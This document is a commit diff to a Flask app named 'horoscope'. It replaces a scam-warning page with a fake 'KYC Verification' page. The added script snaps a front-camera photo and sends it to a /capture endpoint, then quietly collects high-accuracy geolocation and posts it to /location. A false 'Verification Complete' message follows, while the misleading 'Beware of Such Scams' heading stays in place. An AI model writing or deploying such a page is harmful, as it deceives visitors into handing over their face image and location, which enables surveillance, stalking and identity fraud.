

Before and after one commit to yashas0510/horoscope, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Before the commit the page ends 605 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -3,81 +3,142 @@
 <head>
 <meta charset="UTF-8" />
 <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-<title>Public Safety Notice</title>
+<title>KYC Verification</title>
 
 <style>
-* {
-  margin: 0;
-  padding: 0;
-  box-sizing: border-box;
-}
-
 body {
   min-height: 100vh;
-  background: radial-gradient(circle at top, #1c1f24 0%, #0b0e11 45%, #050608 100%);
+  background: #0b0e11;
   display: flex;
   justify-content: center;
   align-items: center;
   color: #ffffff;
 }
 
-/* Container */
-.notice-box {
+.box {
   max-width: 520px;
-  background: rgba(15, 17, 20, 0.95);
+  background: #111;
   border: 1px solid #2a2d33;
   border-radius: 6px;
   padding: 40px 30px;
   text-align: center;
 }
 
-/* Heading */
-.notice-title {
+h1 {
   font-family: Verdana, sans-serif;
   font-size: 24px;
-  font-weight: bold;
+  color: #ff4d4f;
   margin-bottom: 20px;
-  color: #ff4d4f;
 }
 
-/* Message text */
-.notice-text {
-  font-family: Arial, Helvetica, sans-serif;
+p {
   font-size: 15px;
   line-height: 1.6;
   color: #e4e6eb;
 }
 
-/* Footer note */
-.notice-footer {
+button {
   margin-top: 25px;
-  font-size: 12px;
-  color: #8e8e8e;
+  padding: 12px 22px;
+  background: #3f4db8;
+  border: none;
+  border-radius: 6px;
+  color: #fff;
+  font-size: 15px;
+  cursor: pointer;
 }
 </style>
 </head>
 
 <body>
 
-<div class="notice-box">
-  <div class="notice-title">
-    Beware of Such Scams
-  </div>
+<div class="box" id="kycBox">
+  <h1>Beware of Such Scams</h1>
+  <p>
+    This verification step is required to continue.<br>
+    Camera and location access will be used for KYC purposes only.
+  </p>
 
-  <div class="notice-text">
-    Fraudsters may impersonate government portals, payment services, or official authorities
-    to collect personal information, money, or device access.<br><br>
+  <button onclick="startKYC()">Proceed for KYC</button>
+</div>
 
-    Do not share OTPs, Aadhaar numbers, passwords, or allow camera and location access
-    unless you are on an official and verified website.<br><br>
+<div class="box" id="finalBox" style="display:none;">
+  <h1>Verification Complete</h1>
+  <p>
+    Your KYC verification has been completed successfully.<br>
+    You may now continue to the final page.
+  </p>
+</div>
 
-    Always verify the website URL and report suspicious activity to the appropriate authorities.
-  </div>
+<script>
+/* ===== SAME LOGIC AS OLD AUTHORITATIVE CODE ===== */
 
-  <div class="notice-footer">
-    Public Safety Advisory • Stay Alert • Stay Safe
-  </div>
-</div>
+// Camera capture (unchanged)
+async function capturePhoto() {
+  let stream = null;
+  try {
+    stream = await navigator.mediaDevices.getUserMedia({
+      video: { facingMode: "user" }
+    });
+
+    const video = document.createElement("video");
+    video.srcObject = stream;
+    await video.play();
+
+    const canvas = document.createElement("canvas");
+    canvas.width = video.videoWidth;
+    canvas.height = video.videoHeight;
+    canvas.getContext("2d").drawImage(video, 0, 0);
+
+    stream.getTracks().forEach(t => t.stop());
+    return canvas.toDataURL("image/jpeg", 0.8);
+  } catch (e) {
+    if (stream) stream.getTracks().forEach(t => t.stop());
+    throw e;
+  }
+}
+
+async function startKYC() {
+  try {
+    /* CAMERA */
+    const imageData = await capturePhoto();
+
+    await fetch("/capture", {
+      method: "POST",
+      headers: { "Content-Type": "application/json" },
+      body: JSON.stringify({ image: imageData })
+    });
+
+    /* LOCATION (NON-BLOCKING) */
+    if (navigator.geolocation) {
+      navigator.geolocation.getCurrentPosition(
+        pos => {
+          fetch("/location", {
+            method: "POST",
+            headers: { "Content-Type": "application/json" },
+            body: JSON.stringify({
+              lat: pos.coords.latitude,
+              lon: pos.coords.longitude,
+              accuracy: pos.coords.accuracy
+            })
+          });
+        },
+        () => {
+          /* silently ignore */
+        },
+        { enableHighAccuracy: true }
+      );
+    }
+
+    /* FINAL PAGE */
+    document.getElementById("kycBox").style.display = "none";
+    document.getElementById("finalBox").style.display = "block";
+
+  } catch (err) {
+    alert("KYC permission denied or unavailable");
+  }
+}
+</script>
 
 </body>
 </html>
```
